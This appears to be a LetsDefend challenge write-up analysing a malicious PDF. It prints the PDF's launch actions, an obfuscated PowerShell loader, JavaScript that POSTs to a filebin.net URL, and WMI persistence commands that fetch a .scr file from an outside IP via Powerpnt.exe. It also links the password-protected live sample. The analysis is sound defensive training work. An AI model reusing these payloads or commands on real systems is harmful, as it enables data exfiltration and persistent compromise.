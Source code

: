 # PDF Analysis - LetsDefend Challenge

### Summary

An employee has received a suspicious email:

**From:** SystemsUpdate@letsdefend.io **To:** Paul@letsdefend.io **Subject:** Critical - Annual Systems UPDATE NOW **Body:** Please do the dutiful before the deadline today. **Attachment:** [Update.pdf](https://drive.google.com/file/d/1_P5rsU1LCHYW--36TbhYqA841VeAZ6VE/view?usp=sharing) **Password:** letsdefend

The employee has reported this incident to you as the analyst which has also forwarded the attachment to your SIEM. They have mentioned that they did not download or open the attachment as they found it very suspicious. They wish for you to analyze it further to verify its legitimacy.

**File link:** [Download](https://drive.google.com/file/d/1_P5rsU1LCHYW--36TbhYqA841VeAZ6VE/view?usp=sharing) **Password:** letsdefend

NOTE: Do not open in your local environment. It is a malicious file.

This challenge prepared by [@DXploiter](https://twitter.com/DXploiter)

### Questions

1. What local directory name would have been targeted by the malware?
2. What would have been the name of the file created by the payload?
3. What file type would this have been if it were created?
4. Which external web domain would the malware have attempted to interact with?
5. Which HTTP method would it have used to interact with this service?
6. What is the name of the obfuscation used for the Javascript payload?
7. Which tool would have been used for creating the persistence mechanism?
8. How often would the persistence be executed once Windows starts? (format: X.X hours)?
9. Which LOLBin would have been used in the persistence method?
10. What is the filename that would have been downloaded and executed using the LOLbin?
11. Where would this have been downloaded from? (format: IP address)
12. Which country is this IP Address located in?

### Findings

1. Download the infected file in our isolated environment.
2. Upload to [VirusTotal.com](http://VirusTotal.com) and check the malware validity. Trojan is flagged on the virus scan. [VirusTotal](https://www.virustotal.com/gui/file/ac3d6089d459195800931784a175b31fd65e20a937488acd95477db7dd253280/detection)
3. Let's check on what is the content inside this malicious PDF file by using `strings` command
    
    `strings Update.pdf`
    
4. After reviewing to the pdf file, I saw there is a PowerShell command which is encoded in Base64.
    
    ```powershell
    endobj
    19 0 obj
        /OpenAction
          <<
            /S /Launch
            /Win
              <<
                /F '(\\powershell -EncodedCommand cDF6c2MwRCV3cW53bm5qZWt3aW56JXN0bmVtdWNvRCU6QyBodGFQbm9pdGFuaXRzZUQtIGV0YWRwVS0gKiVzdG5lbXVjb0QlOkMgaHRhUC0gZXZpaGNyQS1zc2VycG1vQw==)'
           >>
     endobj
    ```
    
5. Let’s decode it using CyberChef with “From Base64”. The outcome looks weird, and it looks like reversed and what I found on the next code, it open with the cmd.exe and decode with ‘best64code’ and do the ‘Reverse’ function on the ‘$base64’ variable, which means the outcome after decoding should require to reverse. 
    
    ```powershell
    26 0 obj
            /OpenAction <<
                            /S /Launch
                            /Win
                        <<
    			/F (\103:\\Windows\\system32\\cmd.exe /C 'Powershell')
                            /P ($best64code = ("{5}{0}{2}{30}{12}{1}{14}{15}{6}{21}{31}{20}{10}{28}{7}{24}{11}{13}{22}{25}{17}{3}{19}{8}{4}{23}{26}{9}{16}{18}{27}{29}"-f 'mTuIXZ0xWaGRnblZXRf9lI9','atdnCNoQDiI3Yz','IXZ0xWaGBSRUFURSNEIn5Wak5WaCJXZtV3cu92QvRlclRHbpZ0XfBCSUFEUgIibvlGdwlmcjNnY1NHX092byx','EIlNmbhR3culEdldmchRFIFJVRIdFIwAD','F','=IiIcpGb2dkYaN3VIJlIc1TZtFmTuIXZtV3cu92Q05WZ2VUZulGTk5WYt12bDJSPyVWb1NnbvNEIsIiIcN2ZJV1alFlZHVmIc1TZtF','h2YhNUZslmRlNWamZ2TcBjL2EDXlNWamZ2TcRnZvN3byNWaNxFbhN2bMxVY0FGRwBXQcVSRMlkRPJFUSV0UVVCXzJXZzVFX6MkI9UGdhx','vJHXlNWamZ2TgQnZvN3byNWa','Zv1UZj5WY0NnbJ91Xg00TSZEIqACVDVET','dn5WYMl','Wb','LioGb2dkYaN3VIJlI9UWbh5EIFRVQFJ1QgIXZtV3cu92Q05WZ2','gMW','VUZulGTk5WYt12bDBCSUFEUgIibvlGdwlmcjNnY1NHX092byxFXioTRDFEUTVUTB50','5iM4Qjc','lBXYwxGbhdHXl','nclVXUsIiM21WajxFdv9mci0TZjFGcTVWbh5EduVmdFBCLiM2ZJV1alFlZHV','UfJzMul2VnASQTl','mI9UWbh5EIFRVQF','M5AiTJhEVJdFI05WZ2VkbvlGdhNWamlG','Rmbh1','GctVGVl5W','LgMWatdnCNoQDicSblR3c5N1XT9kZyVGUfFGdhREZlRHdh1','NlI9knclVXUgwiIMF1Vi0T','Nx1clxWaGBSbhJ3ZvJHUcpzQi0Da0FGUlxmYhRXdjVGeFBC','mcvZkZyVG','ZnFW','J1QgIXZ0xWaGRnblZXRf9F','vNELiAyJyN2cuIDO0IXZwFGcsxWY39CN14CN4EjL3gTMuAjNv8iOwRHdodCIlhXZuQnbwJXZ39GUcZTMlNWamZ2TcR3b','IIRVQQBiIu9Wa0BXayN2ciV3ccR3bvJHXcJiOFNUQQNVRNFkTvAyYp12d','FXioTRDFEUTVUTB50L','aM')
    $base64 = $best64code.ToCharArray() ; [array]::Reverse($base64) ; -join $base64 2>&1> $null
    $LoadCode = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("$base64"))
    Invoke-Expression $LoadCode"")
            /Pages 2 0 R
            /Type /Catalog
    endobj
    ```
    
6. I try again with the “Reverse” option and *gotcha*! It will help you to solve question no 1- 3.
    
    ```powershell
    ##Before Reverse
    p1zsc0D%wqnwnnjekwinz%stnemucoD%:C htaPnoitanitseD- etadpU- *%stnemucoD%:C htaP- evihcrA-sserpmoC
    
    ##After Reverse
    Compress-Archive -Path C:%Documents%* -Update -DestinationPath C:%Documents%zniwkejnnwnqw%D0csz1p
    ```
    
7. Next, let's look into the code further. Where there is another code looks suspicious that using stream functions. Let’s try to de-obfuscate the JavaScript code using beautifier.io.
    
    ```powershell
    33 0 obj
    << /Length 395
    xcdfg >>
    stream
    eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 5="v://a.b/c/d";1 0=e f();0.g("h",5);0.j("9-k: 7/m-n","7/p");0.q=r(){s(0.t===4){6.3(0.u);6.3(0.8)}};1 2=\'{"l":"","i":""}\';0.o(2);',32,32,'xhr|var|data|log||url|console|application|responseText|Content|filebin|net|0flqlz0hiz6o4l32|D0csz1p|new|XMLHttpRequest|open|POST|password|setRequestHeader|Type|login|octet|stream|send|json|onreadystatechange|function|if|readyState|status|https'.split('|'),0,{}))
    endstream
    ```
    
    [Online JavaScript beautifier](https://beautifier.io/)
    
8. The outcome of the [beautifier.io](http://beautifier.io). It will help you to solve question no 4 - 6.
    
    ```powershell
    var url = "https://filebin.net/0flqlz0hiz6o4l32/D0csz1p";
    var xhr = new XMLHttpRequest();
    xhr.open("POST", url);
    xhr.setRequestHeader("Content-Type: application/octet-stream", "application/json");
    xhr.onreadystatechange = function() {
        if (xhr.readyState === 4) {
            console.log(xhr.status);
            console.log(xhr.responseText)
        }
    };
    var data = '{"login":"","password":""}';
    xhr.send(data);
    ```
    
9. For question no 6, the obfuscation used for the JavaScript payload is stated in front of the code. [](https://medium.com/ax1al/javascript-obfuscation-what-why-and-how-5a269e6b6d50)
    
10. For question no 7, ************************************************************************which tool would have been used for creating the persistence mechanism?************************************************************************  On the **steps 5**, we saw there is a function call ‘*$best64code*’ where there is a bunch of the encoded code. I use the [tio.run](http://tio.run) to test on the output of the PowerShell code.
    
    ```powershell
    $best64code = ("{5}{0}{2}{30}{12}{1}{14}{15}{6}{21}{31}{20}{10}{28}{7}{24}{11}{13}{22}{25}{17}{3}{19}{8}{4}{23}{26}{9}{16}{18}{27}{29}"-f 'mTuIXZ0xWaGRnblZXRf9lI9','atdnCNoQDiI3Yz','IXZ0xWaGBSRUFURSNEIn5Wak5WaCJXZtV3cu92QvRlclRHbpZ0XfBCSUFEUgIibvlGdwlmcjNnY1NHX092byx','EIlNmbhR3culEdldmchRFIFJVRIdFIwAD','F','=IiIcpGb2dkYaN3VIJlIc1TZtFmTuIXZtV3cu92Q05WZ2VUZulGTk5WYt12bDJSPyVWb1NnbvNEIsIiIcN2ZJV1alFlZHVmIc1TZtF','h2YhNUZslmRlNWamZ2TcBjL2EDXlNWamZ2TcRnZvN3byNWaNxFbhN2bMxVY0FGRwBXQcVSRMlkRPJFUSV0UVVCXzJXZzVFX6MkI9UGdhx','vJHXlNWamZ2TgQnZvN3byNWa','Zv1UZj5WY0NnbJ91Xg00TSZEIqACVDVET','dn5WYMl','Wb','LioGb2dkYaN3VIJlI9UWbh5EIFRVQFJ1QgIXZtV3cu92Q05WZ2','gMW','VUZulGTk5WYt12bDBCSUFEUgIibvlGdwlmcjNnY1NHX092byxFXioTRDFEUTVUTB50','5iM4Qjc','lBXYwxGbhdHXl','nclVXUsIiM21WajxFdv9mci0TZjFGcTVWbh5EduVmdFBCLiM2ZJV1alFlZHV','UfJzMul2VnASQTl','mI9UWbh5EIFRVQF','M5AiTJhEVJdFI05WZ2VkbvlGdhNWamlG','Rmbh1','GctVGVl5W','LgMWatdnCNoQDicSblR3c5N1XT9kZyVGUfFGdhREZlRHdh1','NlI9knclVXUgwiIMF1Vi0T','Nx1clxWaGBSbhJ3ZvJHUcpzQi0Da0FGUlxmYhRXdjVGeFBC','mcvZkZyVG','ZnFW','J1QgIXZ0xWaGRnblZXRf9F','vNELiAyJyN2cuIDO0IXZwFGcsxWY39CN14CN4EjL3gTMuAjNv8iOwRHdodCIlhXZuQnbwJXZ39GUcZTMlNWamZ2TcR3b','IIRVQQBiIu9Wa0BXayN2ciV3ccR3bvJHXcJiOFNUQQNVRNFkTvAyYp12d','FXioTRDFEUTVUTB50L','aM')
    $base64 = $best64code.ToCharArray() ; [array]::Reverse($base64) ; -join $base64 2>&1> $null
    $LoadCode = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("$base64"))
    Write-Output $LoadCode
    ```
    
11. Output of the code. It will help you to answer question no 7 - 11.
`Query="SELECT * FROM __InstanceModificationEvent WITHIN 9000 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"`
The suspicious script should get events from a remote location within 9000 seconds.
`CommandLineEventConsumer CREATE Name="RHWsZbGvlj", ExecutablePath="C:\Program Files\Microsoft Office\root\Office16\Powerpnt.exe 'http://60.187.184.54/wallpaper482.scr' ",CommandLineTemplate="C:\Users\%USERPROFILE%\AppData\Local\Microsoft\Office\16.0\OfficeFileCache\wallpaper482.scr"`
It is creating a process to run a specified executable program from a command line under the LOLBin “***Powerpnt.exe***”, which downloads the file “***wallpaper482.scr***” hosted in the suspicious IP domain ***60.187.184.54***
    
    ```powershell
    wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="eGfQekUIgc", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 9000 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
    wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="RHWsZbGvlj", ExecutablePath="C:\Program Files\Microsoft Office\root\Office16\Powerpnt.exe 'http://60.187.184.54/wallpaper482.scr' ",CommandLineTemplate="C:\Users\%USERPROFILE%\AppData\Local\Microsoft\Office\16.0\OfficeFileCache\wallpaper482.scr"
    wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"eGfQekUIgc\"", Consumer="CommandLineEventConsumer.Name=\"RHWsZbGvlj\""
    ```
    
    NOTE: Tricky part to the question no 8, where the PowerShell code is 9000 second but it should be converted to hours. 
    
12. IP address location can use [DNSChecker](http://DNSChecker.com) to find it. [IP Address Lookup - Instantly Locate Your Public IP](https://dnschecker.org/ip-location.php?ip=60.187.184.54)
